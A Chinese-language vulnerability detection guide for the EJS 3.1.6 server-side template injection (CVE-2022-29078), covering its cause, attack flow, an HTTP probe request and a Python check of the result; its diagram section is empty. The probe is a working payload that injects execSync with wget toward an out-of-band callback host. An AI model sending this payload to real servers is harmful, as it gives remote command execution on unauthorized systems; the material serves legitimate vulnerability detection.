

# Node.js Embedded JavaScript (EJS) 3.1.6 SSTI远程代码执行漏洞（CVE-2022-29078）检测说明

## 漏洞简介

Node.js Embedded JavaScript (EJS) 3.1.6 存在服务端模板注入（SSTI）漏洞，攻击者可通过特定参数注入恶意模板表达式，最终实现远程代码执行，危及系统安全。

## 影响范围

- 产品：EJS (Embedded JavaScript)
- 影响版本：3.1.6
- CVE编号：CVE-2022-29078
- 危害等级：Critical

## 漏洞原理

EJS模板引擎在处理`settings[view options][outputFunctionName]`参数时，未做有效校验，攻击者可覆盖outputFunctionName选项并注入恶意Node.js代码，导致任意命令执行。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，利用settings参数注入Node.js命令。
2. 服务器端未对参数进行安全处理，直接传递给模板引擎。
3. 模板引擎执行恶意payload，触发命令执行（如wget外部OAST域名）。
4. 攻击者通过OAST平台（如interactsh）接收到请求，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /page?id=<随机字符串>&settings[view%20options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('wget http://<oast域名>');s HTTP/1.1
Host: target.com
```

- settings参数注入Node.js命令，尝试让目标服务器主动请求OAST域名。

### 预期响应与交互

- OAST平台收到来自目标的HTTP请求（协议为http）。
- 响应体包含`You are viewing page number`。

### 判定逻辑

```python
def is_vulnerable(interactsh_result, response):
    if 'http' in interactsh_result['protocol'] and 'You are viewing page number' in response.text:
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [Eslam.io分析](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
- [GitHub PoC](https://github.com/miko550/CVE-2022-29078)
- [EJS官方修复commit](https://github.com/mde/ejs/commit/15ee698583c98dadc456639d6245580d17a24baf)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2022-29078)
- [EJS官方发布页](https://github.com/mde/ejs/releases) 